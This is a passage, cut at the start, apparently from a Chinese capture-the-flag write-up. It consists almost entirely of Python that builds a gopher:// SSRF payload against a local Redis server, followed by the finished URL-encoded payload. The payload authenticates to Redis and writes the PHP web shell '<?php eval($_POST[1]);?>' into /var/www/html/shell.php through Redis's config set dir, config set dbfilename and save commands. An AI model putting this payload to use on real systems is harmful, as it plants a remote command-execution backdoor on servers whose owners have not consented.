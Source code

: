 ```python
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += urllib.quote(redis_format(x))
    print payload
```

因为本题种给出了redis的密码,所以需要加上auth

```python
from urllib.parse import quote
protocol="gopher://"
ip="127.0.0.1"
port="6379"
shell="\n\n<?php eval($_POST[1]);?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["auth boogipop_is_a_webdog",
     "set 1 {}".format(shell.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]
if passwd:
    cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    for x in cmd:
        payload += quote(redis_format(x))
    print(payload)
```

```
gopher://127.0.0.1:6379/_%2A2%0D%0A%244%0D%0Aauth%0D%0A%2420%0D%0Aboogipop_is_a_webdog%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2428%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B1%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
```
